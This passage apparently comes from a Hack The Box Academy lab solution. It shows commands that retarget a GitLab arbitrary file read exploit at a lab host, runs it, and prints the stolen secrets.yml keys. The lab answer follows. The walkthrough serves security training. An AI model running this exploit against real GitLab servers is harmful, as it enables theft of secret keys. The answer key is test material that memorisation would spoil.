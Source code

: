 ```shell
sed -i 's/vapt/student/g' exploitv3.py
sed -i 's/Test@123/Password123!/g' exploitv3.py
sed -i 's/localhost/gitlab-dev5.inlanefreight.local/g' exploitv3.py
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-k3xbe99mhx]─[~/gitlab-file-read-exploit]
└──╼ [★]$ sed -i 's/vapt/student/g' exploitv3.py

┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-k3xbe99mhx]─[~/gitlab-file-read-exploit]
└──╼ [★]$ sed -i 's/Test@123/Password123!/g' exploitv3.py

┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-k3xbe99mhx]─[~/gitlab-file-read-exploit]
└──╼ [★]$ sed -i 's/localhost/gitlab-dev5.inlanefreight.local/g' exploitv3.py
```

Right after they have made the changes in the `exploitv3.py` file, they will have to run it. Students will then be presented with information about the `secrets.yml` file and the value of the `secret_key_base` variable.

Code: shell

```shell
python3 exploitv3.py
```

```
─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-k3xbe99mhx]─[~/gitlab-file-read-exploit]
└──╼ [★]$ python3 exploitv3.py 
you are logedin
project Anshajanth1 was created.
project Anshajanth2 was created.
issue was created
issue was moved
Reading internal file....
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run \`sudo gitlab-ctl reconfigure\`.

---
production:
  db_key_base: f3ceb67f5ba84ba84a0549e3c13f54167c6e0aaa0fec7a85b8f25c40e255cefebcd77f9710261737c29a401257f0e5f542686969be0aecd097b3f36a83650044
  secret_key_base: 6022f124545afbdac965cc8178712e00b2937c09c75999a8fd62cca428f65b2aff7a0ed0a885d7d2f44225f9e3f3347516a15bbf8fa4c93a77bcb0d9ea725945
  otp_key_base: 82b97a16073399a7b9e5e1a77a0977cca369cc503ee55ed6acbac80f3a094a5247c512523e5e8dd485aaef806324693c3ba78765f740b1c020f9ce57190b4161
<SNIP>
```

Answer: `6022f124545afbdac965cc8178712e00b2937c09c75999a8fd62cca428f65b2aff7a0ed0a885d7d2f44225f9e3f3347516a15bbf8fa4c93a77bcb0d9ea725945`